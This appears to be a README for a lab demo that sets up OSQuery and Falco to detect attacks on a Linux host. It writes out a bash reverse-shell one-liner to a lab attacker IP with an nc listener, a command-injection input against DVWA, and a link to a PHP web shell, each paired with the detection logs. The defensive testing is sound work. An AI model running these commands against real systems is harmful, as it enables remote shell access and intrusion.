


# Goals
This demo setup OSQuery and Falco agents on a Linux server to hunt cybersecurity threats. Rules map to MITRE's Attack Framework.

# Prerequisites
- A Linux server running Ubuntu 20.04, installed Ansible and docker

# Steps
## 1. Install OSQuery and Falco agents 
```bash
ansible-playbook install.yaml
```

## 2. Testing
- target host: ip=192.168.3.103, hostname=h3 (installed OSQuery and Falco)
- attacker host: ip=192.168.3.104, hostname=h4

Run exploit code and monitor logs

### 2.1 Create reverse shell
```bash
# attacker
vagrant@h4:~$ nc -nvlp 8080

Listening on 0.0.0.0 8080
Connection received on 192.168.3.103 40466
vagrant@h3:~$ id
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
vagrant@h3:~$


# target
vagrant@h3:~$ bash -i >& /dev/tcp/192.168.3.104/8080 0>&1
```

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"behavioral_reverse_shell","hostIdentifier":"h3","calendarTime":"Mon May  2 06:05:14 2022 UTC","unixTime":1651471514,"epoch":0,"counter":0,"numerics":false,"columns":{"cmdline":"bash -i","cwd":"/home/vagrant","gid":"1000","name":"bash","parent":"14158","parent_cmdline":"-bash","path":"/usr/bin/bash","pid":"29283","remote_address":"192.168.3.104","remote_port":"8080","root":"/","start_time":"1651470912","uid":"1000"},"action":"added"}
```

### 2.2 Exploit DVWA vulnerabilities
```bash
# run DVWA app on the target host
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Access DWVA web and exploit:

***command-injection:***


***file-upload:*** 
download yaps.php file from https://github.com/Nickguitar/YAPS


```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"ping -c 4","cwd":"/var/www/html/vulnerabilities/exec","duration":"272668","exit_code":"0","gid":"33","ntime":"566756435645000","parent":"28239","path":"/bin/ping","pid":"28240","probe_error":"0","syscall":"exec","tid":"28240","uid":"33"},"action":"added"}
{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"id","cwd":"/var/www/html/vulnerabilities/exec","duration":"229619","exit_code":"0","gid":"33","ntime":"566756437328111","parent":"28239","path":"/usr/bin/id","pid":"28241","probe_error":"0","syscall":"exec","tid":"28241","uid":"33"},"action":"added"}

{"name":"blacklist_socket_events","hostIdentifier":"h3","calendarTime":"Mon May  2 05:40:45 2022 UTC","unixTime":1651470045,"epoch":0,"counter":1,"numerics":false,"columns":{"cid":"3991","duration":"157961","exit_code":"18446744073709551501","family":"2","fd":"11","gid":"33","local_address":"","local_port":"0","ntime":"569684542775889","parent":"29024","path":"/usr/sbin/apache2","pid":"29028","probe_error":"0","protocol":"0","remote_address":"192.168.3.104","remote_port":"8080","syscall":"connect","tid":"29028","type":"1","uid":"33"},"action":"added"}


tail -f /var/log/syslog

May  2 08:19:00 h3 falco: 15:19:00.902174435: Debug Shell spawned by untrusted binary (user=www-data user_loginuid=-1 shell=sh parent=apache2 cmdline=sh -c ping  -c 4 ; id pcmdline=apache2 -k start gparent=apache2 ggparent=<NA> aname[4]=<NA> aname[5]=<NA> aname[6]=<NA> aname[7]=<NA> container_id=2453035f32e7 image=vulnerables/web-dvwa)
```

# References:
Threat Hunting Methodologies:
- https://attack.mitre.org
- https://paraflare.com/attack-lifecycle-detection-of-an-operational-technology-breach/
- https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/

Tools:
- https://osquery.io
- https://fleetdm.com
- https://falco.org
- https://zeek.org

Rule set:
- https://github.com/palantir/osquery-configuration/
- https://github.com/teoseller/osquery-attck/
- https://github.com/bfuzzy/auditd-attack
